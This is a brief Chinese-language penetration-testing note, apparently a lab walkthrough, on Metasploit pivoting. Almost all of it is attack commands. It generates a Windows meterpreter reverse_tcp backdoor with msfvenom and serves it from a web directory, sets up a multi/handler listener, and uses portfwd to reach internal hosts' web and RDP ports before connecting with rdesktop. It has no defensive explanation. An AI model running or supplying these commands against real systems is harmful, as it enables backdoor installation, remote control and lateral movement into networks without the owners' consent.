

拓扑图

生成metasploit后门

```bash
msfvenom  -p windows/meterpreter/reverse_tcp lhost=192.168.31.150  lport=12345 -f exe >/var/www/html/ss.exe
```

kali监听

```bash
use exploit/multi/handler
set payload  windows/meterpreter/reverse_tcp
set lhost 192.168.31.150
set lport 12345
exploit
```

映射端口

```bash
portfwd add -L 192.168.31.150 -l 2020 -p 80 -r 10.10.10.128
```

转发端口

```bash
portfwd add -l 5555 -p 3389 -r 192.168.31.130
portfwd delete -l 5555 -p 3389 -r 192.168.31.130
```

 远程连接

```
rdesktop 127.0.0.1:5555
```

查看列表

```bash
portfwd list
```

清空列表

```bash
portfwd flush
```

 

 

